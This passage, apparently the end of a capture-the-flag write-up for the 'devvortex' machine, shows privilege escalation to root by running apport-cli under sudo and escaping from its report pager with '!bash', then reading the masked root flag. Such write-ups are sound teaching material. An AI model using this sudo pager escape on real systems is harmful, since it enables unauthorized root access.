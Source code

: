 Since there is no file in /var/crash, we can manage to create a crash file with the -P pid option that is listed in the help panel. We can do it with any PID of a running process (run ps -ux):

```bash
logan@devvortex:/tmp$ sudo /usr/bin/apport-cli -f -P 1343

*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.
.....................

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (7.2 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V
!id
uid=0(root) gid=0(root) groups=0(root)
!bash
root@devvortex:/tmp# whoami
root
root@devvortex:/tmp# cd
root@devvortex:~# cat root.txt 
c4****************************bb

```

And we are root! Hope you liked it!
